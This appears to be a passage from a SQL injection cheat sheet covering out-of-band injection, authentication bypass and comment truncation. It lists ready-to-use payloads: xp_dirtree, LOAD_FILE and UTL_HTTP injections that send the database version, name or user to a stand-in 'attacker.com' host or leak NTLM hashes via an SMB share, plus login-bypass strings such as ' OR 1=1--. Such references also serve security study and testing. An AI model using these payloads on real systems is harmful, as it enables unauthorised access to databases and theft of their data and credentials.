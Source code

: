 ### Out-of-Band SQLi

* **Explanation**: Occurs when an attacker cannot use the same channel to launch the attack and gather results. It relies on the database server's ability to make external network requests (e.g., DNS queries, HTTP requests) to an attacker-controlled server, thereby exfiltrating data.
* **Use Case**: When in-band and inferential techniques are not feasible due to strict filtering or unstable server responses. Requires the database to support functions that trigger external interactions (e.g., `UTL_HTTP` in Oracle, `xp_dirtree` in SQL Server, `LOAD_FILE` in MySQL for SMB shares).
* **Payload Example (SQL Server with `xp_dirtree`):**
    ```sql
    '; EXEC master..xp_dirtree '\\<attacker_ip>\share'--
    -- Attempts to connect to an SMB share, potentially revealing NTLM hash.
    '; EXEC master..xp_dirtree '\\' + (SELECT @@version) + '.attacker.com\share'--
    -- Exfiltrates database version via DNS lookup to attacker-controlled domain.
    ```
* **Payload Example (MySQL with `LOAD_FILE` or DNS functions):**
    ```sql
    ' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT DATABASE()), '.attacker.com\\a'))--
    -- Attempts to trigger a DNS lookup for 'database_name.attacker.com'.
    ```
* **Payload Example (Oracle with `UTL_HTTP`/`UTL_TCP`/`UTL_INADDR`):**
    ```sql
    ' UNION SELECT UTL_HTTP.REQUEST('[http://attacker.com/](http://attacker.com/)'||(SELECT USER FROM DUAL)) FROM DUAL--
    -- Sends an HTTP request to attacker's server, leaking the database user.
    ```

---

## Common Payloads and Techniques

### Bypassing Authentication

* **Explanation**: Manipulating login queries to bypass username/password checks.
* **Payloads:**
    * `' OR 1=1-- `
    * `' OR '1'='1`
    * `" OR "1"="1`
    * `admin'--` (logs in as admin if no password is required or if the remaining query is commented out)
    * `admin' /*` (alternative comment for some databases)
    * `' OR 1=1 #` (MySQL specific comment)
* **Use Case**: Gaining access to an application without valid credentials.

### Comments

* **Explanation**: Used to truncate the original SQL query, ignoring parts of it.
* **Types:**
    * `-- ` (SQL standard, note the space after `--`)
    * `#` (MySQL specific)
    * `/* ... */` (Multi-line comment, standard)
* **Use Case**: Disabling parts of the original query, for instance, a password check in a login form: `SELECT * FROM users WHERE username='admin' AND password='<input_password>'` becomes `SELECT * FROM users WHERE username='admin'--'` if input is `admin'--`.
